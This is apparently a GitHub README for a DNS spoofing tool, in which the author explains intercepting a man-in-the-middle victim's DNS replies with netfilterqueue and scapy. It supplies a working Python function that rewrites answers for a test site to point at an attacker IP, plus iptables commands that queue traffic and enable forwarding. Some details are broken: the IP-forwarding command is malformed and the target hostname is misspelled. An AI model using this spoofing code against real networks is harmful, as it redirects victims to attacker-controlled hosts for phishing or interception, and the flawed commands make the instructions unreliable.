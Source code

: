 # DNS_spoof

## +Used Modules.

### -netfilterqueue.

This module is used to redirect the flow of packets, the funtions process_packet will receive the packet and turn it into a scapy packet that i can edit(if you wanna know more about the module scapy go to another of my repositories like ARP_spoof).
When i verify that i have some request from my target(i can know if i have one request because i became the MITM, go to my repository ARP_spoof) if that's true i'm gonna take the value of the url and see if is the same web-site that i wanna spoof, and if it is i can send the DNS response with my ip destination, but with the same url name. And i can change the field "an" that contain the real answer to my costumized response and change the field "ancount" for just one response. Finally i'm gonna turn the scapy packet to a real packet.

```python
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
         qname = scapy_packet[scapy.DNSQR].qname
         if "testephp.vulnweb.com" in qname:
             print("[+] Spoofing target" + str(qname))
             answer = scapy.DNSRR(rrname=qname, rdata="192.168.1.8")
             scapy_packet[scapy.DNS].an = answer
             scapy_packet[scapy.DNS].ancount = 1
          
             del scapy_packet[scapy.IP].len
             del scapy_packet[scapy.IP].chksum
             del scapy_packet[scapy.UDP].chksum
             del scapy_packet[scapy.UDP].len
            

             packet.set_payload(str(scapy_packet))
```


## Used Commands

these commands clean the Iptables, and redirect the packets entering and leaving my pc for a queue 0 that i'm creating, this way all the packets that came through my computer instead of just pass (because of my arp_spoof when i became the Man-in-the-Midle) i'm gonna store all the packets in a queue.  

iptables --flush<br>
iptables -I INPUT -j NFQUEUE --queue-num  0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num  0<br>

Internet sharing on Linux is done through Netfilter / Iptables, which is the native firewall for distributions starting with the 2.4 kernel. So is necessary to use this command, this command writes the number 1 into the ip_forward file, enabling packet routing. The default is 0. With this, Linux starts to route packages from one interface to the other and vice versa(My target and my host).

echo > 1 /proc/sys/ipv4/ip_forward


